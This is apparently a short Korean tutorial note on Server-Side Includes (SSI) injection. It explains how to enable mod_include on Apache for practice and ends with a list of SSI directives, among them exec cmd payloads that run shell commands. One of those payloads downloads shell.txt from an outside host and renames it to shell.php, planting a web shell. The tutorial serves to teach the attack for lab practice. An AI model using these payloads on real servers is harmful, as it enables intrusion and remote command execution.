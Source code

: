 ### SSI Injection?

Server-Side Includes (SSI) Injection 로 과거 서버 환경 정보 활용에 사용했던 기능이다.

현재는 더 좋은 명령어 들이 존재하기 때문에 거의 사용되지 않는다.

따라서 기본 설정은 대부분 비활성화 되어 있고, 일부러 활성화 시키지 않는 이상 실습 조차 어렵다.

### httpd.conf 를 LoadModule 로 사용하는 설정의 경우

LoadModule include_module modules/mod_include.so

의 #을 확인한다.(주석처리(#)가 있다면 제거)

### apache2의 mods-available 폴더를 사용하는 환경인 경우

ln -s /etc/apache2/mods-available/include.load /etc/apache2/mods-enabled

### httpd.conf 또는 /etc/apache2/sites-available/000-default 파일 편집

<pre><code>
＜Directory>
    Options FollowSymLinks Includes
    AllowOverride All
    Order allow,deny
    Allow from all
    AddType text/html .shtml
    AddOutputFilter INCLUDES .shtml
＜/Directory>
</code></pre>

### 사용 가능 구문

<pre><code>
＜!--#exec cmd="ls" -->
＜!--#exec cmd="cd /root/dir/">
＜!--#exec cmd="wget http://mysite.com/shell.txt | rename shell.txt shell.php" -->
＜!--#exec cmd="dir" -->
＜!--#exec cmd="cd C:\admin\dir">
＜!--#config errmsg="File not found, informs users and password"-->
＜!--#echo var="DOCUMENT_NAME" -->
＜!--#echo var="DOCUMENT_URI" -->
＜!--#config timefmt="A %B %d %Y %r"-->
＜!--#fsize file="ssi.shtml" -->
＜!--#include file=”UUUUUUUU...UU”-->
</code></pre>
